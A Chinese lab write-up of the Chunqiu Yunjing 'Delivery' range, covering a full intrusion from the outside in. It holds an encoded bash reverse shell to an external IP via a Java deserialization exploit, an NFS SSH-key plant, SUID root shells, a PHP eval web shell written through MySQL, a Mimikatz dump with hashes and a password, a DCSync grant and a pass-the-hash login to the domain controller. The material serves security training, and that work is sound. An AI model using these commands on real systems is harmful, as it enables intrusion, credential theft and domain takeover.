





# 内网打靶—春秋云镜篇 (5) --Delivery - 先知社区

内网打靶—春秋云镜篇 (5) --Delivery

- - -

# 外网打点

## 信息搜集

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121058-12f7c55e-bcca-1.png)

## FTP 匿名登录

发现有 FTP 匿名登录，连接查看

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121101-1505b806-bcca-1.png)

将两个文件下载至本地，查看

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121109-19b69c9e-bcca-1.png)

## 漏洞探测

搜索`Xstream`漏洞，发现

[https://www.cnblogs.com/thelostworld/p/14810682.html](https://www.cnblogs.com/thelostworld/p/14810682.html)

尝试`CVE-2021-29505`

## 反弹 shell

```plain
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1098 CommonsCollections6 "bash -c {echo,YmFzaCAtaSAmPiAvZGV2L3RjcC8xMTkuMy4yMTUuMTk4Lzc3NzYgMD4mMQ==}|{base64,-d}|{bash,-i}"
```

同时开启监听

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121120-20734eb0-bcca-1.png)

接下来发包

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121126-2389aaea-bcca-1.png)

此时收到响应

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121141-2cb9578c-bcca-1.png)

查看监听处

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121144-2e6f4a50-bcca-1.png)

成功获取权限，而后在`/root/flag`下找到`flag`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121150-32033744-bcca-1.png)

# 内网探测

上线 VIPER

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121154-3497f9c2-bcca-1.png)

## 信息搜集

使用 fscan 对内网网段进行扫描

```plain
meterpreter > shell -c './fscan -h 172.22.13.14/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
(icmp) Target 172.22.13.14    is alive
(icmp) Target 172.22.13.6     is alive
(icmp) Target 172.22.13.28    is alive
(icmp) Target 172.22.13.57    is alive
[*] Icmp alive hosts len is: 4
172.22.13.14:80 open
172.22.13.14:21 open
172.22.13.28:445 open
172.22.13.6:445 open
172.22.13.28:139 open
172.22.13.6:139 open
172.22.13.28:135 open
172.22.13.6:135 open
172.22.13.57:80 open
172.22.13.28:80 open
172.22.13.57:22 open
172.22.13.14:8080 open
172.22.13.28:8000 open
172.22.13.14:22 open
172.22.13.28:3306 open
172.22.13.6:88 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo 
[*]172.22.13.6
   [->]WIN-DC
   [->]172.22.13.6
[*] NetInfo 
[*]172.22.13.28
   [->]WIN-HAUWOLAO
   [->]172.22.13.28
[*] WebTitle http://172.22.13.14       code:200 len:10918  title:Apache2 Ubuntu Default Page: It works
[*] NetBios 172.22.13.6     [+] DC:XIAORANG\WIN-DC         
[+] ftp 172.22.13.14:21:anonymous 
   [->]1.txt
   [->]pom.xml
[*] NetBios 172.22.13.28    WIN-HAUWOLAO.xiaorang.lab           Windows Server 2016 Datacenter 14393
[*] WebTitle http://172.22.13.57       code:200 len:4833   title:Welcome to CentOS
[*] WebTitle http://172.22.13.28       code:200 len:2525   title:欢迎登录 OA 办公平台
[*] WebTitle http://172.22.13.28:8000  code:200 len:170    title:Nothing Here.
[*] WebTitle http://172.22.13.14:8080  code:200 len:3655   title:公司发货单
[+] mysql 172.22.13.28:3306:root 123456
```

发现一些 Web 资产以及 Mysql 弱口令。

## 代理搭建

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121207-3c192d92-bcca-1.png)

## 攻击域成员一 (NFS 文件共享漏洞)

根据题目描述，`管理员在内网部署了 NFS`，那我们就对内网的主机进行探测，而后发现`172.22.13.57`开放了 2049 端口，参考这篇文章[https://blog.csdn.net/m0\_52433710/article/details/122058141](https://blog.csdn.net/m0_52433710/article/details/122058141)

### 挂载共享文件夹

使用`showmount -e`查看共享文件夹

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121214-40371a56-bcca-1.png)

接下来新建个`temp`目录，将共享目录挂载到上面来

```plain
mount -t nfs 172.22.13.57:/home/joyce temp -o nolock
```

但在 kali 上搞了半天，也没弄上来，因此换在靶机上搞。

靶机上没有`nfs-common`，需要安装，直接`apt install nfs-common`会报错

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121223-45ffcdac-bcca-1.png)

参考下方这个链接进行安装

[https://gist.github.com/zkryakgul/bb561235b7f36c57d15a015d20c7e336](https://gist.github.com/zkryakgul/bb561235b7f36c57d15a015d20c7e336)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121227-48582c84-bcca-1.png)

成功使用

```plain
mount -t nfs 172.22.13.57:/home/joyce temp -o nolock
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121236-4d93c636-bcca-1.png)

此时`df -h`可以看到已成功挂载

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121243-51d3262e-bcca-1.png)

使用`ls -al`查看当前目录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121250-55a29c8a-bcca-1.png)

### 写 SSH 公钥

写 ssh 公钥

```plain
kali 攻击机
ssh-keygen
cat id_rsa.pub

NFS 控制机
mkdir .ssh
echo "xxx">>/tmp/temp/.ssh/authorized_keys
```

此时即可用 kali 进行登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121255-590d273c-bcca-1.png)

### 提权

#### FTP 提权

```plain
find / -user root -perm -4000 -print 2>/dev/null
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121303-5d949588-bcca-1.png)

发现 ftp 命令，参考[https://gtfobins.github.io/gtfobins/ftp/](https://gtfobins.github.io/gtfobins/ftp/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121313-636112ac-bcca-1.png)

因此我们这里在靶机上开启`ftp`服务，而后使用`joyce`用户连接，将`flag02.txt`传输上去

```plain
python3 -m pyftpdlib -p 6666 -u test -P test -w &
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121319-672714e0-bcca-1.png)

`joyce`连接 FTP 服务并传输文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121329-6cd94c6e-bcca-1.png)

在靶机上查看`flag02.txt`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121336-710fd960-bcca-1.png)

#### NFS 提权

后来看到其他师傅的博客发现还有另一个提权方法，参考[https://xz.aliyun.com/t/11664?time\_\_1311=mqmx0DBDuDcD2QD9DBuQ1GkQrPxMR8DArD中的NFS提权。](https://xz.aliyun.com/t/11664?time__1311=mqmx0DBDuDcD2QD9DBuQ1GkQrPxMR8DArD%E4%B8%AD%E7%9A%84NFS%E6%8F%90%E6%9D%83%E3%80%82)

首先在靶机上写入一个 c 文件。

```plain
#include<unistd.h>
void main()
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```

进行赋权和编译

```plain
chmod -s shell.c

 gcc shell.c -o shell

 chmod +s shell
```

此时可以看到已具有 SUID 权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121349-7916a440-bcca-1.png)

回到`joyce`用户这里，执行 shell 文件即可获取 root 权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121353-7b60ac14-bcca-1.png)

在根目录查看到`flag02.txt`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121400-7f95a032-bcca-1.png)

## 攻击域成员二 (Mysql)

一开始 Fscan 扫描的时候我们看到存在 Mysql 弱口令，这里使用 Proxifier 挂上代理，然后使用 navicat 进行连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121413-87417414-bcca-1.png)

### 查看是否有可写权限

查看下是否有写入权限，具体命令如下

```plain
show variables like "secure_file_priv";
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121420-8b733658-bcca-1.png)

发现`Value`为空，说明写入没限制。

### 获取具体路径

接下来查看`plugin`目录获取路径

```plain
show variables like "%plugin%";
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121426-8f5fd73a-bcca-1.png)

### 写 Shell

获取到路径，接下来写入一句话木马

```plain
select "<?php @eval($_POST[1]);?>" into outfile "C:\\phpstudy_pro\\www\\shell.php"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121432-92d6079a-bcca-1.png)

蚁剑挂上代理后连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121438-967b9fe0-bcca-1.png)

发现 Flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121443-9930ca4e-bcca-1.png)

## 攻击域控（ACL Admin）

使用蚁剑虚拟终端写入管理员用户

RDP 登录一下

### 信息搜集

上传 Mimikatz 进行密码搜集

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121449-9cad80e0-bcca-1.png)

发现一个服务账户和普通用户

```plain
msv :   
     [00000003] Primary
     * Username : WIN-HAUWOLAO$
     * Domain   : XIAORANG
     * NTLM     : 818d5422a636903a4af503ae49663f57
     * SHA1     : d42271bb4d2c9194002f67e5ff296c018d7f565e
    tspkg : 
Authentication Id : 0 ; 84434 (00000000:000149d2)
Session           : Service from 0
User Name         : chenglei
Domain            : XIAORANG
Logon Server      : WIN-DC
Logon Time        : 2024/1/27 9:45:22
SID               : S-1-5-21-3269458654-3569381900-10559451-1105
    msv :   
     [00000003] Primary
     * Username : chenglei
     * Domain   : XIAORANG
     * NTLM     : 0c00801c30594a1b8eaa889d237c5382
     * SHA1     : e8848f8a454e08957ec9814b9709129b7101fad7
     * DPAPI    : 89b179dc738db098372c365602b7b0f4
    tspkg : 
    wdigest :   
     * Username : chenglei
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :  
     * Username : chenglei
     * Domain   : XIAORANG.LAB
     * Password : Xt61f3LBhg1
```

查看下用户在域内的权限，

发现`chenglei`用户在`ACL Admin`组中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121455-a081ef30-bcca-1.png)

意味着这个用户拥有 WriteDACL 权限，我们可以登录 chenglei 的远程桌面使用`powerview`给 chenglei 账号添加 DCSync 权限

### RDP 登录

用刚刚抓取的密码进行登录，导入 Powerview，添加 DCSync 权限

```plain
Add-DomainObjectAcl -TargetIdentity 'DC=xiaorang,DC=lab' -PrincipalIdentity chenglei -Rights DCSync -Verbose
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121501-a3f97d2c-bcca-1.png)

### 导出域内 Hash

使用 Mimikatz 导出域内所有 Hash

```plain
lsadump::dcsync /domian:xiaorang.lab /all /csv
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121506-a6bf82e0-bcca-1.png)

### 票据传递

使用刚刚获取的 Hash 进行登录即可

```plain
proxychains python3 wmiexec.py xiaorang.lab/administrator@172.22.13.6 -hashes :6341235defdaed66fb7b682665752c9a -dc-ip 172.22.13.6
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121512-aaac2638-bcca-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240127121517-adb77bc0-bcca-1.png)
